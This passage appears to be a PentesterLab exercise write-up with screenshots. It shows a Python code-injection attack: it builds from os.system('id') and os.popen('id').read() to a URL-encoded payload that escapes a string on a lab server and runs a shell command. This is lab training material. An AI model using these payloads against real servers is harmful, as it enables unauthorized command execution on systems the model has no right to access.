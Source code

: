 [Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/31c42bd0-a6b3-4724-a2c0-2b620a4f29ab)

```
os.popen('[CMD]').read()
```

```
os.popen('id').read()
```

```
http://ptl-011538e1-1c7c92d0.libcurl.so/hello/hacker%60%22%2bos.popen('id').read()%2b%22test%60
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/c3d65a95-8137-43cd-9c40-54baabf41164)
